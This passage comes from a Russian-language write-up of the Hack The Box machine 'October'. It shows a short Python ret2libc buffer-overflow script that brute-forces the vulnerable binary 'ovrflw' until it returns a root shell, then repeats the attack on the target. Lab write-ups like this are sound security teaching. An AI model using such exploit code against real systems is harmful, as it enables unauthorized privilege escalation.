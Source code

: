 ```python

payload = junk + system_addr + exit_addr + sh_addr

for i in range(1, 1001):
	print 'Try: %s' % i
	call(['./ovrflw', payload])
```

После запуска перебора на 155-й попытке мне вернулся шелл.

[![exploit-py.png](/assets/images/pwn-kingdom/october/exploit-py.png)](/assets/images/pwn-kingdom/october/exploit-py.png)
{:.center-image}

# В боевых условиях

Снова переместившись в сессию на October, я выполню те же манипуляции для того, чтобы узнать необходимые мне значения адресов памяти.

[![october-get-addresses.png](/assets/images/pwn-kingdom/october/october-get-addresses.png)](/assets/images/pwn-kingdom/october/october-get-addresses.png)
{:.center-image}

И проведу эксплуатацию прямо из Bash.

[![october-ovrflw-pwn.png](/assets/images/pwn-kingdom/october/october-ovrflw-pwn.png)](/assets/images/pwn-kingdom/october/october-ovrflw-pwn.png)
{:.center-image}

Я ожидал, что перебор займет хотя бы несколько минут, но на шестой попытке уязвимый бинарь уже сдался.

> «Октябрь» горит, убийца плачет...

October пройден :triumph:

![trophy.png](/assets/images/pwn-kingdom/october/trophy.png)
{:.center-image}


[//]: # (2019-10-08)